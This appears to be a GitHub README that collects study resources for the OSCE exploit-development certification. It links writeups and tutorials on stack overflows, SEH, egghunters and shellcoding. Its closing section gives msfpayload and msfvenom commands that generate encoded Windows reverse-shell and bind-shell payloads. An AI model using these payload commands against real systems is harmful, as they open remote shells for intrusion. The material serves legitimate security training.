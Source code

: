 <p align="center">
  <img width="300" height="300" src="https://github.com/bigb0sss/OSCE/blob/master/osce.png">
</p>

## Exploit Writeups
* Backdooring PE - [Weaponizing Your Favorite PE](https://medium.com/@bigb0ss/expdev-weaponizing-your-favorite-pe-portable-executable-exploit-c268c0c076c7)
* SEH + Egghunter - [Winamp 5.12 Exploitation using Egghunter](https://medium.com/@bigb0ss/expdev-winamp-5-12-exploitation-using-egghunter-6efb2c8a863b)
* SEH + Egghunter(Manual Encoding) - [HP OpenView NNM 7.5 Exploitation](https://medium.com/@bigb0ss/expdev-hp-openview-nnm-7-5-exploitation-seh-egghunter-b25ea5fab43f)

### Exploit Exercise ([Protostar](http://exploit-exercises.lains.space/protostar/))
|Module |Link   |Note  |
| :---  | :---  | :---
|Stack0 |[Stack BOF Intro](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack0-214e8cbccb04)   | |
|Stack1 |[Stack BOF Basic1](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack1-2f28302559fc)  | |
|Stack2 |[Stack BOF Basic2](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack2-d6cb2e467853)  | |
|Stack3 |[Stack BOF Basic3](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack3-7db54291f867)  | |
|Stack4 |[Stack BOF Basic4](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-4-bde92b7b6b38) | |
|Stack5 |[Stack BOF Shellcode](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6) | |
|Stack6 |[Stack BOF ret2libc](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)  | ROP is no need for OSCE |
|Stack7 |[Stack BOF ret2.text](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7) | ROP is no need for OSCE. But learn POP; POP; RET concept with this |

## Links
* Study Plan - https://www.abatchy.com/2017/03/osce-study-plan
* Prep Guide - https://tulpa-security.com/2017/07/18/288/
* Mona.py - https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

## Reviews
* Techryptic - [Great Tips](https://techryptic.github.io/2018/12/28/Study-Guide-&-Tips-Offensive-Security-Certified-Expert-(OSCE)-Cracking-The-Perimeter-(CTP)/)
* Jack Halon - https://jhalon.github.io/OSCE-Review/

## Github
* Examples - https://github.com/dhn/OSCE
* OSCE_Bible - https://github.com/mohitkhemchandani/OSCE_BIBLE
* FullShade - https://github.com/FULLSHADE/OSCE (*POCs)
* h0mbre - https://github.com/h0mbre/CTP-OSCE (*Good helpers)
* ihack4falafel - https://github.com/ihack4falafel/OSCE

## Resources
* Corelan - https://www.corelan.be/index.php/articles/
  * [Exploit Writing Part 1 - Stack-based Overflow](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
  * [Exploit Writing Part 2 - Buffer Overflow](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)
  
* FuzzSecurity - http://fuzzysecurity.com/tutorials.html

* SecuritySift - http://www.securitysift.com/
  * [Windows Exploit Development Part 1 - Basics](http://www.securitysift.com/windows-exploit-development-part-1-basics/)
  * [Windows Exploit Development Part 2 - Stack-based Overflow](http://www.securitysift.com/windows-exploit-development-part-2-intro-stack-overflow/)
  * [Windows Exploit Development Part 3 - Offsets](http://www.securitysift.com/windows-exploit-development-part-3-changing-offsets-and-rebased-modules/)
  * [Windows Exploit Development Part 4 - Locating Shellcode JMP](http://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/)

* Fuzzing
  * https://resources.infosecinstitute.com/intro-to-fuzzing/
  * https://resources.infosecinstitute.com/fuzzer-automation-with-spike/

* Structured Exception Handler (SEH)
  * [Exploit Writing Part 3-1 - SEH](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
  * [Exploit Writing Part 3-2 - SEH](https://www.corelan.be/index.php/2009/07/28/seh-based-exploit-writing-tutorial-continued-just-another-example-part-3b/)
  * [Windows Exploit Development Part 6 - SEH](http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)

* Egghunter
  * http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
  * [Exploit Writing Part 8 - Egghunting](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)
  * [Windows Exploit Development Part 5 - Egghunting](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/)

* ASLR
  * [Exploit Writing Part 6 - ASLR](https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/)

* Shellcoding
  * [Exploit Wrting Part 9 - Shellcoding](https://www.corelan.be/index.php/2010/02/25/exploit-writing-tutorial-part-9-introduction-to-win32-shellcoding/)
  * https://www.fuzzysecurity.com/tutorials/expDev/6.html
  * http://sh3llc0d3r.com/windows-reverse-shell-shellcode-i/
  * http://www.vividmachines.com/shellcode/shellcode.html#ws
  * Jumping to Shellcode - https://connormcgarr.github.io/CTP-OSCE-Thoughts/
  * Alphanumeric Shellcod2 1 - https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/
  * Alphanumeric Shellcode 2 - https://connormcgarr.github.io/Admin-Express-0day/
 
* Opcode
  * 32-bit Opcode Table - http://sparksandflames.com/files/x86InstructionChart.html
  * Types of Jump - http://www.unixwiz.net/techtips/x86-jumps.html

* Web Application
  * XSS - https://excess-xss.com/
  * XSS - https://www.veracode.com/security/xss
  
* Windows API
  * API Tables - https://docs.microsoft.com/en-us/windows/win32/apiindex/windows-api-list
<br>

## Reverse Shell
### Windows XP/Vista Ultimate
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C
```
### Later Windows
```bash
/pentest/exploits/framework/msfpayload windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 C 

msfvenom -p windows/shell_reverse_tcp LHOST=1192.168.x.x LPORT=443 -a x86 --platform=win -e x86/alpha_mixed -f raw
```

## Bind Shell
### Windows XP/Vista Ultimate
```bash
msfpayload windows/shell_bind_tcp R > bind
msfencode -e x86/alpha_mixed -i bind -t perl
```
### Later Windows
```bash
msfvenom -p windows/shell_bind_tcp -a x86 --platform=win -e x86/alpha_mixed -f perl
```


